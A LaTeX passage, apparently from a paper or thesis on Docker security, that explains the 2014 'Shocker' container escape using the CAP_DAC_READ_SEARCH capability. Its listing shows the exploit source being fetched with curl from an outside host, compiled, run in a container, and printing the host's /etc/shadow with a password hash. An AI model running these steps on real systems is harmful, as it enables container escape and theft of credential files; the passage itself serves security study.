 \subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP DAC READ SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container\cite{Docker-Shocker-Seclists}. A process with \lstinline{CAP_DAC_READ_SEARCH} is able to bruteforce the internal index of files outside of the container. To demonstrate this attack a proof of concept exploit was released\cite{Docker-Shocker}\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\hfill

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}.},captionpos=b]
(host)$ curl -o /tmp/shocker.c http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add=CAP_DAC_READ_SEARCH -v /tmp:/tmp busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (i.e. \lstinline{/etc/shadow}).
